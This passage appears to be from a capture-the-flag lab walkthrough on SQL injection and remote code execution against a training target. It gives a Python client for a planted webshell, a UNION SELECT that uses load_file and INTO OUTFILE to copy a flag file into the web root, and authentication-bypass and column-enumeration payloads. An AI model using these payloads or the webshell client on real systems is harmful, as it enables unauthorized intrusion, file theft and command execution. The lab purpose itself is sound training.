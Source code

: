 Execute the Python file like this `python3 script.py ls -la`

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://46.101.94.35:31086/webshell.php?0=" + command)
print(response.text, end="")
```

Once you find the file, copy it into the web directory.

```sql
cn' union select "",load_file("/var/www/flag.txt"),"","" into outfile "/var/www/html/flagcopy.txt"-- -
```

And go to [http://46.101.94.35:31086/flagcopy.txt](http://46.101.94.35:31086/flagcopy.txt).

<figure><img src="../../.gitbook/assets/flagcopy.png" alt=""><figcaption></figcaption></figure>

12. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

***

1. Bypass authentication

```sql
' or '1'='1'-- -
```

2. Check the number of columns queried

```sql
' order by 5-- -
```

3. Find the columns displayed on the web page

```sql
' union select 1,2,3,4,5-- -
```

4. Show the database version
